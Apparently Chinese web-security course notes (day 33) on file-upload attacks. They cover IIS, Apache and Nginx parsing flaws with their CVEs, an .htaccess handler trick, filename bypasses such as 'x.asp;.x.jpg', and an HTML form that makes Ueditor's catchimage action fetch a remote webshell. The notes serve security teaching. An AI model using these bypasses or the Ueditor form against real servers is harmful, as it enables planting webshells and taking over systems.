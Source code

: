 # day33WEB攻防-通用漏洞&文件上传&中间件解析漏洞&编辑器安全

![day33](/Users/yangluchao/Documents/GitHub/security/image/day33.png)

```
#知识点：
1、中间件安全问题
2、中间件文件上传解析
3、Web应用编辑器上传

#详细点：
1、检测层面：前端，后端等
2、检测内容：文件头，完整性，二次渲染等
3、检测后缀：黑名单，白名单，MIME检测等
4、绕过技巧：多后缀解析，截断，中间件特性，条件竞争等

#本章课程内容：
1、文件上传-CTF赛题知识点
2、文件上传-中间件解析&编辑器安全
3、文件上传-实例CMS文件上传安全分析

#前置：
后门代码需要用特定格式后缀解析，不能以图片后缀解析脚本后门代码(解析漏洞除外)
如：jpg图片里面有php后门代码，不能被触发，所以连接不上后门
如果要图片后缀解析脚本代码，一般会利用包含漏洞或解析漏洞，还有.user.ini&.htaccess

```

演示案例：

------

-   中间件文件解析-IIS&Apache&Nginx

-   Web应用编辑器-Ueditor文件上传安全

-   实例CMS&平台-中间件解析&编辑器引用

    ```
    #中间件文件解析-IIS&Apache&Nginx
    -IIS 6 7 文件名 目录名
    1、文件名：x.asp;.x.jpg
    2、目录名：x.asp/x.jpg
    3、IIS7.X与Nginx解析漏洞一致
    
    -Apache 换行解析 配置不当
    1、换行解析-CVE-2017-15715
    其2.4.0~2.4.29版本中存在一个解析漏洞
    2、配置不当-.htaccess配置不当
    AddHandler application/x-httpd-php .php
    
    -Nginx  文件名逻辑 解析漏洞
    1、文件名逻辑-CVE-2013-4547 
    影响版本：Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7
    2、解析漏洞-nginx.conf配置不当
    由此可知，该漏洞与Nginx、php版本无关，属于用户配置不当造成的解析漏洞。
    
    #Web应用编辑器-Ueditor文件上传安全
    <form action="http://192.168.46.139/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
    <p>shell addr: <input type="text" name="source[]" /></p>
    <input type="submit" value="Submit" /> 
    </form>
    
    #实例CMS&平台-中间件解析&编辑器引用
    1、中间件配置不当导致文件被恶意解析
    2、CMS源码引用外部编辑器实现文件上传
    
    ```

    